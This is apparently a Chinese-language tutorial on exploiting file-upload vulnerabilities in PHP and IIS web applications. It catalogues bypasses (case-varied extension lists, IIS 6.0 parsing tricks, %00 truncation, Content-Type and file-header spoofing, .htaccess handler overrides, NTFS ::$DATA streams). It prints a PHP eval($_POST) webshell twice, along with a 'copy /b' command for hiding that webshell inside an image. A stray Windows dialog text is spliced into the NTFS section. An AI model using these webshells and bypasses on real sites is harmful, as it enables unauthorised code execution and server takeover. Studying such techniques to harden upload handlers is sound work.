

## 1 、文件上传过程

客户端 选择发送的文件->服务器接收->网站程序判断->临时文件->移动到指定的路径
服务器 接收的资源程序

upload.php

```php
<?php
    if ($_FILES["file"]["error"] > 0)
      {
      echo "Error: " . $_FILES["file"]["error"] . "<br />";
      }
    else
      {
      echo "Upload: " . $_FILES["file"]["name"] . "<br />";
      echo "Type: " . $_FILES["file"]["type"] . "<br />";
      echo "Size: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />";
      echo "Stored in: " . $_FILES["file"]["tmp_name"];
      }
?>
```

客户端 上传表单

```html
<html>
 <head></head>
 <body> 
  <form action="upload.php" method="post" enctype="multipart/form-data"> 
   <label for="file">Filename:</label> 
   <input type="file" name="file" id="file" /> 
   <br /> 
   <input type="submit" name="submit" value="Submit" /> 
  </form>  
 </body>
</html>
```

## 2、文件上传错误代码

0：没有错误发生，文件上传成功。

值：1; 上传的文件超过了 php.ini 中 upload_max_filesize 选项限制的值。

2：上传文件的大小超过了 HTML 表单中 MAX_FILE_SIZE 选项指定的值。

值：3; 文件只有部分被上传。

4：没有文件被上传。

## 3、网站文件常见的后缀名

```
asp
asa
cdx
cer
php
aspx
ashx
jsp
php3
php.a
shtml
phtml
```

过滤的时候可以传入这种格式

```
aspasp
phpphp
```

大小写转换 

## 4、造成漏洞的原因

### 1、 程序代码和系统缺陷

#### （1） 文件可以直接上传 可执行脚本 moon.php

#### （2） js脚本限制  禁止js文件运行 

##### （a）修改html

没有数据流过，页面做限制，页面修改html。

```html
<body>
<form id=form1 method="post" enctype="multipart/form-data" action="http://upload.moonteam.com/upload_2.php">
<H1>案例二：客户端JS验证绕过</H1>
<label for="file">Filename:</label>
<input type="file" name="file"/> 
<input type="submit" name="button_1" value="submit"" />
</form>
</body>
```

##### （b） 抓包改包 

- 直接在jpg上面修改代码

- 在包里面修改后缀名

##### （c）黑名单过滤不全       穷举后缀名 moon.phtml

黑名单：指定的后缀名是禁止上传的
白名单：就是允许上传文件后缀
jpg、png、gif等其他图片格式

```
asp
asa
cdx
cer
php
aspx
ashx
jsp
php3
php.a
shtml
phtml
ASP
ASA
CDX
CER
PHP
ASPX
ASHX
JSP
PHP3
PHP.A
SHTML
PHTML
Asp
Asa
Cdx
Cer
Php
Aspx
Ashx
Jsp
Php3
Php.a
Shtml
Phtml
```

##### （d） 文件名可控	后缀名不可控	iis6.0解析漏洞	moon.asp;.jpg moon.asp;jpg	支持类型（asp、cer、cer、php、cdx、asa）

##### （e）目录解析漏洞 	iis6.0 文件夹为x.asp	只要上传文件到这个文件夹里	访问就会执行脚本(asp脚本)

##### （f）%00截断的应用场景(可绕过一些waf)

- 直接截断文件名

  

  

- 创建目录可控 %00截断创建目录 利用iis6.0解析漏洞 上传文件到这个目录里面

- 截断参数 生成文件

##### （g）文件类型的检测  修改http文件类型

```
Content-Type: application/octet-stream ---> Content-Type: image/gif
```

##### （h）文件头检测   修改文件头 或 图片一句话

- JPEG (jpg)，文件头：FFD8FF 

- PNG (png)，文件头：89504E47 

- GIF (gif)，文件头：47494638 

- TIFF (tif)，文件头：49492A00 

- Windows Bitmap (bmp)，文件头：424D

制作图片一句话

```cmd
copy 1.gif/b+moon.php tk.php
```

### 2、程序逻辑出错

双文件上传(jpg、php)
空格文件上传

### 3、部署环境

apache开启重写模块

```
LoadModule rewrite_module modules/mod_rewrite.so
```

重写解析  .htaccess

```html
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

上传.htaccess后，会将jpg解析为php

### 4、配置错误  1.jpg/.php

iis7.0|iis7.5|nginx 开启fast-cgi

### 5、漏洞

nginx 0.83
/1.jpg%00php

### 6、系统特性（绕过一些防火墙）

上传文件名a.php:.jpg的时候，会在目录下生成a.php的空白文件 
php+window+iis
利用PHP 和 Windows环境的叠加特性，以下符号在正则匹配时的相等性：

- 双引号"   =  点号.

- 大于符号>  =  问号?

- 小于符号<  =  星号*

- 文件名 .< 或文件名 .<<<或文件名 .>>> 或文件名 .>>< 空文件名

- 写入filename .<<<

  

  生成空白文件moonse.php,将fliename改成filename="moonse.<<<"，并执行

  

  写入内容

  ```php
  <?php
  phpinfo();
  eval($_POST['moon']);
  ?>
  ```

### 7、NTFS交换数据流[Window Title]
程序兼容性助手

[Main Instruction]
此程序是否正常工作?

[是，此程序正常工作(Y)] [否，启动疑难解答程序(N)] [关闭(C)]

:$DATA 创建文件
::$DATA 创建和写入文件


创建kkk.php文件和写入内容

```php
<?php
phpinfo();
eval($_POST['moon']);
?>
```

补充

​	window系统里面会把文件名的最后一个点 会自动去掉。如上传moon.php.最后还是会变成moon.php

 

 